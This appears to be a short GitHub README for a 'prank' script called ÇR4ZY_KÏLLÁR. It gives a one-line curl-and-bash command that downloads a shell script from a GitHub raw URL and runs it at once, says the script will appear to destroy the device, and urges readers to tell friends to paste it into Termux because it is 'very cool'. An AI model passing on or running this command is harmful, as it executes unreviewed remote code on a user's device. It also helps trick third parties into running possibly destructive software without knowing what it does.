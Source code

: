 # ÇR4ZY_KÏLLÁR
This is A Prank, Just Paste This command 

```bash
curl -L -o ~/CRAZY_KILLER.sh https://raw.githubusercontent.com/HikkiV/-R4ZY_K-LL-R/main/%C3%87R4ZY_K%C3%8FLL%C3%81R_DOWNLOAD && bash ~/CRAZY_KILLER.sh
```

And you will see ÇR4ZY_KÏLLÁR destroying your device😈 XD.
Share to your Friend, tell them "paste this command on termux, it's very cool" XD.


first time making this, Sorry if it's not perfect or ugly.
Run on Termux or Any Bash executor
